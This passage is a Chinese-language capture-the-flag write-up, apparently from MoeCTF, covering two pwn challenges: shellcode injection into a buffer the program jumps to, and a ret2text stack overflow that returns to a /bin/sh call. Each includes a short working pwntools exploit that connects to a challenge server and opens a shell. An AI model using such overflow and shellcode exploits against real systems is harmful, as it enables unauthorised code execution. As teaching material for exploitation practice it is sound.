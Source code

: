 ![image-20221007003504537](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007003504537.png)

![image-20221007003443373](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007003443373.png)

可以看到先设置s数组为0，再gets得到用户输入，最后直接跳转到s位置执行s对应机器码

所以直接输入shellcode就能getshell了，用shellcraft可以方便点，直接写机器码也可以

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("43.136.137.17",3914)
#io = process("./shellcode")
context(os="linux",arch="amd64",log_level="debug")

shellcode = asm(shellcraft.sh())
io.sendline(shellcode)

io.interactive()
```

### ret2text

看保护

![image-20221007004043894](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007004043894.png)

![image-20221007004401337](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007004401337.png)

出题人要给我们礼物，还让我们许愿

![image-20221007004429345](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007004429345.png)

给了一堆以 a 开头的四级词汇。。。

虽然看起来不知道要干什么，但是去看rodata段就可以看到 /bin/sh 

![image-20221007004845537](C:\Users\王林博\AppData\Roaming\Typora\typora-user-images\image-20221007004845537.png)

对应单词action，直接可以getshell了

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("moectf.challenge.ctf.show",27002)
#io = process("./ret2text")

addr = 0x4014c2
offset = 0x40+8

payload = ('A'*offset).encode() + p64(addr)
io.sendline(payload)

io.interactive()
```
